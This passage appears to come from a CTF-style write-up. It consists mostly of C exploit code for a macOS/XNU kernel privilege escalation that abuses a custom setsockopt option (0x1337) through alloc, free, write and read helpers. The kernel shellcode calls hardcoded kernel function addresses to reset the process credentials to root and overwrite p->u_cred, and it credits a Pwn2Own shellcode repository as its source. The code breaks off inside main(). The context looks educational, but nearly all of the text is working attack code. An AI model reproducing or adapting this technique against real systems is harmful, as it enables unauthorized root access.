 The exploit code is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <stdint.h>

#include <sys/socket.h>
#include <sys/un.h>
#include <unistd.h>

static void alloc_sotag(int fd) {
    char buf[0x50] = {0, 0, 0, 0};
    setsockopt(fd, SOL_SOCKET, 0x1337, buf, 0x50);
}

static void free_sotag(int fd) {
    char buf[0x50] = {3, 0, 0, 0};
    setsockopt(fd, SOL_SOCKET, 0x1337, buf, 0x50);
}

static void write_sotag(int fd, const void *data) {
    char buf[0x50] = {1, 0, 0, 0};
    memcpy(buf + 8, data, 0x40);
    setsockopt(fd, SOL_SOCKET, 0x1337, buf, 0x50);
}

static void read_sotag(int fd, void *buf) {
    socklen_t size = 0x50;
    getsockopt(fd, SOL_SOCKET, 0x1337, buf, &size);
}

long shellcode() {
    /* No ASLR, what joy (although the read in getsockopt is more than sufficient to break ASLR) */
    void (*dummy_ret)() = (void *)0xffffff800054c9e8; // set breakpoint here to debug
    void *(*kauth_cred_get_with_ref)() = (void *)0xffffff8000467644;
    void (*mac_cred_label_destroy)(void *) = (void *)0xffffff800025bc0f;
    void (*mac_cred_label_init)(void *) = (void *)0xffffff800055c73e;
    void *(*kauth_cred_setresuid)(void *, int, int, int, int) = (void *)0xffffff8000467126;
    void *(*kauth_cred_setresgid)(void *, int, int, int) = (void *)0xffffff8000467ec4;
    char *(*current_proc)(void) = (void *)0xffffff800025350c;
    void (*chgproccnt)(int, int) = (void *)0xffffff800024a4e6;

    // call a random ret instruction for debugging purposes
    dummy_ret();
    // shellcode adapted from https://github.com/ret2/Pwn2Own-2021-Safari/blob/main/eop/kernel_sc.c
    void* cred = kauth_cred_get_with_ref();
    mac_cred_label_destroy(cred);
    mac_cred_label_init(cred);
    // userspace will re-call setuid(0) to make sure some extra bookkeeping occurs
    cred = kauth_cred_setresuid(cred, 0, 0, 17, 0);
    cred = kauth_cred_setresgid(cred, 0, 0, 0);
    // manually overwrite p->u_cred (offset from _proc_ucred)
    *(void**)(current_proc()+0xc0) = cred;
    chgproccnt(0, 1);

    return 0x42424242;
}

int main() {
    char buf[0x50];
    bzero(buf, sizeof(buf));

```